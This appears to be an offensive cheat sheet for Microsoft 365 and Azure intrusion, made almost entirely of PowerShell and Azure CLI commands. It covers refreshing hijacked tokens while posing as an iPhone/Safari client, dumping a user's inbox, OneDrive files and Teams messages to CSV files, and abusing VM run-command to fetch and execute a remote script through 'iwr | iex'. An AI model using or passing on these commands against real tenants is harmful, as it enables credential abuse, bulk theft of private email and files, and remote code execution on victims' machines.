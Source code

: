 ```powershell
# Function RefreshTo-MAMToken 0.0.1 TokenTactics
# Function RefreshTo-MSGraphToken 0.0.1 TokenTactics
# Function RefreshTo-MSManageToken 0.0.1 TokenTactics
# Function RefreshTo-MSTeamsToken 0.0.1 TokenTactics
# Function RefreshTo-O365SuiteUXToken 0.0.1 TokenTactics
# Function RefreshTo-OfficeAppsToken 0.0.1 TokenTactics
# Function RefreshTo-OfficeManagementToken 0.0.1 TokenTactics
# Function RefreshTo-OutlookToken 0.0.1 TokenTactics
# Function RefreshTo-SubstrateToken 0.0.1 TokenTactics
```


## Dump Emails by Folder
### Refresh to Graph as iPhone/Safari 
```powershell
RefreshTo-MSGraphToken -refreshToken $response.refresh_token -domain $tenant -Device iPhone -Browser Safari

RefreshTo-MSGraphToken -refreshToken $tok -domain $tenant -Device iPhone -Browser Safari

### take all emails from user folder, add -top X to limit dumpo to csv
$folder = 'inbox'
Dump-OWAMailboxViaMSGraphApi -AccessToken $MSGraphToken.access_token -mailFolder $folder -Device iPhone -Browser Safari > emails.csv


### Download the contents of the OneDrive to the current folder in a csv
$os = New-AADIntOneDriveSettings    

Get-AADIntOneDriveFiles -OneDriveSettings $os | Format-Table > onedrive.csv

## Dump Teams to current folder in a csv
RefreshTo-MSTeamsToken -domain $tenant -refreshToken $response.refresh_token -SaveToCache
RefreshTo-MSTeamsToken -domain $tenant -refreshToken $tok -SaveToCache
Get-AADIntTeamsMessages | Format-Table id,content,deletiontime,*type*,DisplayName > teams.csv
```


## VM RunCommand / ARC / Intune Admin Abuse

### VM RunCommand - Single command
```powershell
$vmName = "Vm1"
$rg = "Devices"
$location = "eastus"
$command = ". { iwr -useb https://boxstarter.org/bootstrapper.ps1 } | iex; get-boxstarter -Force"
$scriptName = "boxstarter"
$user = "planethacker"

az vm run-command create --resource-group $rg --location $location --async-execution false --run-as-password $password --run-as-user $user --script $command --timeout-in-seconds 3600 --run-command-name $scriptName --vm-name $vmName
```
